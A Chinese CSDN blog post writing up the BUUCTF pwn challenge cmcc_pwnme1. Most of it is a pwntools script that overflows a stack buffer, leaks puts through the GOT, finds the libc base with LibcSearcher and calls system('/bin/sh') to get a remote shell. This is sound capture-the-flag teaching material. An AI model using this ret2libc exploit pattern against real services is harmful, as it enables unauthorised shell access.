



<!--yml
category: 未分类
date: 2022-04-26 14:50:48
-->

# buuctf[cmcc_pwnme1]题解_N1ch0l4s的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_46521144/article/details/115257212](https://blog.csdn.net/weixin_46521144/article/details/115257212)

拿到题目，发现getflag函数和简单栈溢出





高兴的尝试了一波，然而发现home目录下没有flag,倒是也正常，没有简单到这种程度

看一下保护



没有开，那也很简单，直接利用栈溢出，ret2libc即可

使用LibcSearcher直接搜索,这题就当是熟练手感了

```
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level='debug'
# io=process('./pwnme1')
io=remote('node3.buuoj.cn',26669)
elf=ELF('./pwnme1')

getflag=0x08048677
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
start=0x08048570
main=0x080486F4

# io.recvuntil('>> 6\. Exit    \n')
# io.sendline('5')
# payload='a'*(164+4)+p32(getflag)
# io.sendlineafter('name of fruit:',payload)

io.recvuntil('>> 6\. Exit    \n')
io.sendline('5')
payload='a'*(164+4)+p32(puts_plt)+p32(main)+p32(puts_got)
io.sendlineafter('name of fruit:',payload)
io.recvuntil('...\n')
puts_addr=u32(io.recv(4))

print "puts_addr----->"+hex(puts_addr)
libc=LibcSearcher('puts',puts_addr)
system=libc.dump('system')
puts_libc=libc.dump('puts')
libc_base=puts_addr-puts_libc
print "libc_base----->"+hex(libc_base)
binsh=libc.dump("str_bin_sh")+libc_base
system_addr=system+libc_base

io.sendline('5')
payload2='a'*(164+4)+p32(system_addr)+p32(0)+p32(binsh)
io.sendlineafter('name of fruit:',payload2)

io.interactive()
```

注释的地方是一开始尝试栈溢出到getflag没有成功的做法

最后成功拿到flag,不想再开一边端口了，总之他变红了 ；）

